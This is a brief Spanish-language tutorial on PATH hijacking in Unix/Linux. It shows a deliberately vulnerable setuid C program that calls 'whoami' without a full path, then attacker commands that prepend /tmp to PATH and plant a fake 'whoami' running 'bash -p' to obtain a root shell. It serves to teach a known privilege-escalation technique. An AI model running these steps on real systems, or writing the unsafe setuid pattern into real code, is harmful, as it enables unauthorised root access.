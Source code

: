 -- - 
PATH Hijacking es una técnica utilizada por los atacantes para secuestrar comandos de un sistema Unix/Linux mediante la manipulación del PATH. El PATH es una variable de entorno que define las rutas de búsqueda para los archivos ejecutables en el sistema.

### Ejemplo: 
*Maquina victima*
```c
#include <stdio.h> 

int main(){
	setuid(0);
	printf("\n[*] Actualmente somos el suigiuiente usuario:\n\n"); 
	system("/usr/bin/whoami");
	printf("\n[+] Actualmente somos el suigiente usuario:\n\n");
	system("whoami");
	return 0;
}
```
*Atacante:*

```bash
echo $PATH 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

export PATH=/tmp/:$PATH 
echo "bash -p" > whoami

```
